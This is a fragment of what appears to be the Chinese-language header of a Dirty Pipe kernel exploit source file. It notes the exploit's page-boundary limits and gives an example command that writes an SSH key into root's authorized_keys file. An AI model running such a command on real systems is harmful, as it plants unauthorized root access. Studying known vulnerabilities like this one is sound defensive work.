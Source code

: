 ```
 * 此漏洞利用有两个主要限制:
 * 1. 偏移量不能在页面边界上(需要在偏移量前写入一个字节以添加对该页面的引用)
 * 2. 写入不能跨越页面边界
 *
 * 示例: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * 更多解释: https://dirtypipe.cm4all.com/
 */
 
 #define _GNU_SOURCE
